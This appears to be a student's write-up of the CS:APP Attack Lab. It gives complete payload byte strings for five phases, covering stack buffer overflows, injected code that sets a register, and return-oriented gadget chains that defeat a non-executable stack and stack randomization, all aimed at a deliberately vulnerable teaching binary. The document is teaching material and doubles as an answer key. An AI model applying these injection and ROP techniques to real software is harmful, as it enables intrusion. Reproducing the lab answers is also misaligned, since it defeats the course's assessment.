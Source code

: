 # Lab3 AttackLab

## Phase 1

No new execution code is needed to be injected. Overflow the buffer to change the return address to the address of `touch1()`

## Phase 2

Inject my cookie to %rdi, which will be the input value of `touch2()`

1. redirect the execution to `%rdi build` function
2. %rdi build function: move my cookie to %rdi
3. redirect the execution to the address of `touch2()`

Byte code for %rdi build function: 

```
48 c7 c7 fa 97 b9 59 c3 /* movq $0x59b997fa, %rdi */
```

Put it together: 

```
48 c7 c7 fa 97 b9 59 c3 /* %rdi build code: move my cookie to %rdi */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of my %rdi build code */
ec 17 40 00 00 00 00 00 /* address of touch 2 code */
```

## Phase 3

Phase 3 is similar to Phase 2, but we need to move the pointer of cookie string to register %rdi this time.

1. redirect the execution to `%rdi build` function
2. %rdi build function: move the pointer of my cookie to %rdi
    + convert cookie string to hex format
    + put the cookie string before the return address, and calculate the offset to generate the actual address
3. redirect the execution to the address of `touch3()`

```
48 c7 c7 b0 dc 61 55 c3 /* move the cookie string address to %rdi */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of my %rdi build code */
fa 18 40 00 00 00 00 00 /* address of touch 3 code */
35 39 62 39 39 37 66 61 /* cookie string in hex format */
```

## Phase 4

Phase 4 is also similar to Phase 2, but we cannot inject `%rdi build function` this time. This is because:

+ It `marks the section of memory holding the stack as nonexecutable`, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

So, we need to collect some gadgets to move my cookie to %rdi

Luckily, we find these assembly codes, and combine them to generate %rdi build function

```
popq %rax  
nop  
retq
```

```
movq %rax,%rdi
nop
retq
```

1. pop the cookie string to %rax
2. move %rax to %rdi
3. redirect the execution to the address of `touch2()`

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* address of popq %rax  nop  retq */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* address of movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* address of touch2 */
```


## Phase 5

Phase 5 is similar to Phase 3, but we cannot calculate the address of cookie string based on the buffer address. This is because:

+ It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.

The address is unpredictable, so we cannot use the method in Phase 4 to pop the address of my cookie string.

So, we still need to combine some gadgets in the farm function to generate %rdi. This phase is much harder than before. You need to be very familiar with the assembly and byte code to generate a valid function.

I search on Google to find some useful tips to handle this phase. I choose one of them to generate my final answer.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* movq %rsp,%rax  48 89 e0 c3 */
d8 19 40 00 00 00 00 00 /* add $0x37,%al   04 37 c3 */
a2 19 40 00 00 00 00 00 /* movq %rax,%rdi  48 89 c7 c3 */
fa 18 40 00 00 00 00 00 /* address of touch 3 */
dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd    /* Padding (0x37(55)-24=31 in total) */
35 39 62 39 39 37 66 61 /* Cookie in ASCII */
```


